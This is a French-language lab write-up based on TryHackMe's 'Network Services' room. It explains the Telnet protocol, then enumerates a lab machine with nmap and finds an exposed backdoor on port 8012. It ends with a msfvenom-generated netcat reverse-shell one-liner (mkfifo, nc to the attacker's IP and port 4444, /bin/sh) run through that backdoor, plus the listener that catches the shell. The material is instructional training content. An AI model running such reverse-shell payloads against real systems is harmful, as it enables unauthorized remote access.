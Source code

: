 ```yaml
---
sidebar: auto
---
```

# Protocole Telnet
<Badge type="tip" text="Rédigé le 21/04/2024" />

## Introduction à Telnet

Telnet est un protocole d'application permettant de se connecter à une machine distante via un réseau. Il fonctionne sur la couche d'application du modèle TCP/IP, facilitant la communication textuelle entre deux appareils.

### Fonctionnement de Telnet

1. ***Connexion Client-Serveur***: Le client Telnet initie une connexion TCP avec le serveur Telnet. Cette connexion se fait généralement sur le port 23, le port par défaut pour Telnet.
2. ***Poignée de main***: Une fois la connexion établie, un processus de poignée de main se déroule entre le client et le serveur pour négocier divers paramètres, tels que le type de terminal, l'ensemble de caractères et la vitesse du terminal.
3. ***Session interactive***: Après la poignée de main, le client présente à l'utilisateur un invite de commande, transformant ainsi le client en un terminal virtuel. À partir de là, l'utilisateur peut saisir des commandes et interagir avec le système distant comme s'il était physiquement présent à sa console.
4. ***Échange de données***: Toutes les commandes saisies par l'utilisateur à l'invite de commande Telnet sont transmises sur le réseau au serveur Telnet. De même, toute sortie générée par le serveur en réponse à ces commandes est renvoyée au client pour affichage.

### Remarque sur la sécurité de Telnet

Il est important de noter que Telnet présente des vulnérabilités de sécurité significatives. Il transmet toutes les données, y compris les mots de passe et autres informations sensibles, en texte clair, le rendant susceptible à l'interception et à l'écoute clandestine. En raison de ces risques de sécurité inhérents, Telnet a largement été remplacé par des alternatives plus sécurisées telles que SSH (Secure Shell) dans les implémentations modernes.

Pour se connecter à un serveur Telnet, on utilise généralement la syntaxe en ligne de commande : `telnet [nom d'hôte ou adresse IP] [port]`. Par exemple, `telnet exemple.com 23` tenterait d'établir une connexion Telnet à un serveur au nom d'hôte spécifié (exemple.com) sur le port 23.

## Énumération

L'énumération des clés peut être cruciale dans l'exploitation d'un service réseau mal configuré. Cependant, les vulnérabilités qui pourraient être potentiellement triviales à exploiter ne sautent pas toujours aux yeux. Pour cette raison, notamment en ce qui concerne l'énumération des services réseau, on doit être méthodiques dans notre approche.

### Exemple avec 10.10.65.56

On commence par énumérer les ports actifs :
```shell
┌──(rootdev㉿kali)-[~]
└─$ nmap -p- -v -A 10.10.65.56  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-22 00:04 CEST
[...]
Scanning 10.10.65.56 [65535 ports]
Discovered open port 8012/tcp on 10.10.65.56
Completed Connect Scan at 00:06, 130.21s elapsed (65535 total ports)
Initiating Service scan at 00:06
Scanning 1 service on 10.10.65.56
Completed Service scan at 00:09, 157.57s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.65.56.
[...]
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8012/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    SKIDY'S BACKDOOR. Type .HELP to view commands
```
Si on avait scanner sans l'option `-p-`, le port 8012 n'aurait pas été trouvé car il n'est pas considéré comme un port standard, ou du top 1000 des ports.
On se rend compte ici de l'importance de prendre le temps de tout scanner, cela permet d'éviter de passer à côté de certaines vulnérabilités.

Dans les résultats de ce scan, on peut lire `SKIDY'S BACKDOOR. Type .HELP to view commands`, ce qui signifie que ce port peut potentiellement être utilisé pour insérer une Backdoor.

## Exploiter Telnet

Telnet, en tant que protocole, est intrinsèquement non sécurisé pour les raisons évoquées précédemment. Il manque de chiffrement, ce qui signifie que ***toutes les communications sont envoyées en texte clair***, et pour la plupart, il présente de faibles contrôles d'accès. Des CVE (Vulnérabilités et Expositions Communes) existent pour les systèmes clients et serveurs Telnet, ce qui permet de vérifier ces vulnérabilités sur des bases de données telles que :

https://www.cvedetails.com/

https://cve.mitre.org/

Un CVE est une liste de failles de sécurité informatique publiquement divulguées. Lorsqu'on fait référence à un CVE, on se réfère généralement au numéro d'identification CVE attribué à une faille de sécurité.

Cependant, il est beaucoup plus probable de trouver une mauvaise configuration dans la façon dont Telnet a été configuré ou fonctionne, ce qui permettra à un attaquant de l'exploiter.

### Démontage de la méthode

Ainsi, à partir de l'étape d'énumération, il est connu que :

1. Il y a un service Telnet mal dissimulé en cours d'exécution sur cette machine.
2. Le service lui-même est marqué comme "backdoor".
3. Il existe un nom d'utilisateur possible "Skidy" impliqué.

En utilisant ces informations, l'attaquant peut essayer d'accéder à ce port Telnet et d'utiliser cela comme un point d'appui pour obtenir un shell inversé complet sur la machine cible.

#### Connexion à Telnet

Il est possible de se connecter à un serveur Telnet avec la syntaxe suivante :

```shell
telnet [ip] [port]
```

### Qu'est-ce qu'un Shell Inversé ?

Un "shell" peut simplement être décrit comme un morceau de code ou un programme qui peut être utilisé pour obtenir l'exécution de code ou de commandes sur un appareil.

Un shell inversé est un type de shell dans lequel la machine cible communique avec la machine attaquante.

La machine attaquante a un port d'écoute, sur lequel elle reçoit la connexion, ce qui permet d'atteindre l'exécution de code ou de commandes.

### Exploit

Connexion en Telnet à la machine :
```shell
┌──(rootdev㉿kali)-[~]
└─$ telnet 10.10.65.56 8012
Trying 10.10.65.56...
Connected to 10.10.65.56.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
```
Aucun retour sur les commandes, en revanche, lorsque l'on écoute les ping, on se rend compte que notre machine attaquante communique bien avec l'attaquée :
```shell
┌──(rootdev㉿kali)-[~]
└─$ sudo tcpdump ip proto \\icmp -i tun0

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:28:53.364751 IP 10.11.82.176 > 10.10.65.56: ICMP echo request, id 32639, seq 1, length 64
00:28:53.412509 IP 10.10.65.56 > 10.11.82.176: ICMP echo reply, id 32639, seq 1, length 64
```
Grâce à cela, on peut envoyer un Reverse Shell avec ***msfvenom*** :
```shell
┌──(rootdev㉿kali)-[~/]
└─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.11.82.176 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 94 bytes
mkfifo /tmp/vsnfs; nc 10.11.82.176 4444 0</tmp/vsnfs | /bin/sh >/tmp/vsnfs 2>&1; rm /tmp/vsnfs
```
* *-p = payload*
* *lhost = our local host IP address (this is your machine's IP address)*
* *lport = the port to listen on (this is the port on your machine)*
* *R = export the payload in raw format*

Et celui-ci, on va l'exécuter sur la machine attaquée après avoir écouté le port 4444 avec la commande `nc -lvp 4444`

Sur le terminal Telnet, on exécute :
```shell
.RUN mkfifo /tmp/vsnfs; nc 10.11.82.176 4444 0</tmp/vsnfs | /bin/sh >/tmp/vsnfs 2>&1; rm /tmp/vsnfs
```

On se rend compte ainsi que sur le terminal où l'on écoute le port 4444 que l'on est connecté :
```shell
┌──(laguigue㉿kali)-[~]
└─$ nc -lvp 4444              
listening on [any] 4444 ...
10.10.65.56: inverse host lookup failed: Unknown host
connect to [10.11.82.176] from (UNKNOWN) [10.10.65.56] 39200
```

Ici, il s'agit d'un exemple très simplé du cours TryHackMe sur les [services réseaux](https://tryhackme.com/r/room/networkservices), malgré qu'il soit très peu probable que ce soit si facile en situation réelle.

<hr>
<br>

::: info Sources
Ce cours s'inspire (et utilise les images) de TryHackMe.com de la chambre "*Network Services*" :
https://tryhackme.com/r/room/networkservices
:::